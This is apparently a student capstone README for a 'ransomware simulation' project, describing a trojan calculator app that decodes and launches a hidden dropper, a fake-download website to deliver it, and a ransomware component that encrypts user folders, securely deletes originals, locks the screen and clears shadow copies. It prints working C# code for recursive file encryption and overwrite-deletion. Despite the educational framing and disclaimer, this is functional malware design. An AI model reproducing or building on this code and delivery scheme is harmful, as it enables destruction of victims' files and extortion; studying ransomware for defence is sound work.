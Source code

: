 


```markdown
# Capstone Project: Ransomware Simulation & Delivery  
**Aimery Barrault | CSCI 460 – Capstone**

---

## 🚀 Project Overview

This repository contains a ransomware simulation for controlled, educational use:

- **CalculatorApp.exe** – a benign “calculator” UI that drops and launches the real payload  
- **capstone-site/** – Next.js “fake download” website to deliver the payload  
- **payload.txt** & **base64script.py** – utilities to embed and extract the encrypted dropper  

> **Do not deploy on production systems or without explicit authorization.**

---

## 📁 Folder Structure

```

.
├── CalculatorApp.exe
├── MainWindow\_CalculatorApp.cs
├── MainWindow\_Manager.cs
├── payload.txt
├── base64-script.py
├── capstone-site/
├── Midterm\_Presentation.pptx
├── Final\_Presentation.pptx


---

## ⚙️ Setting Up the Fake-Download Site

1. **Enter the site directory**  
   ```bash
   cd capstone-site
````

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Place your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

4. **Run in development**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Open [http://localhost:3000](http://localhost:3000).


---

## 🖥️ CalculatorApp (Dropper UI)

**MainWindow\_CalculatorApp.cs** – WPF application that:

* Displays a standard calculator UI.
* On a trigger (e.g. backspace), reads Base64 string, decodes the real dropper, writes it to `%USERPROFILE%\Documents\CalculatorManager.exe`, launches it, and exits.


---

## 🔒 Ransomware Simulator

**MainWindow\_Manager.cs** – WPF application that:

1. **EncryptAll()** – Recursively encrypts user files under:

   * Desktop
   * Documents
   * Pictures
   * Downloads
   * Public Documents
2. **AES-128 CBC** with a fresh IV per file (prepended to ciphertext)
3. **SecureDelete()** – Overwrites original with zeroes, then deletes
4. **Countdown Timer** – 24-hour full-screen, top-most UI lockdown
5. **Password-protected Decrypt** – PBKDF2(SHA-256) verification, max 3 attempts
6. **SelfDestruct()** – Clears shadow copies, zero-wipes key & flag, removes Run-key, then exits

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    // encrypt files in this folder
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; } // skip unreadable folder

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        // securely overwrite & delete original
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>


---

## ✅ Windows Setup & Execution

1. Copy executables & scripts to a Windows 10 VM.
2. Run `CalculatorApp.exe` to drop & launch `CalculatorManager.exe`.
3. Observe `*.aes` files in Desktop/Documents/etc.
4. Enter the correct password to decrypt.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

MIT License. See [LICENSE.md](LICENSE.md) for full terms.

```
```
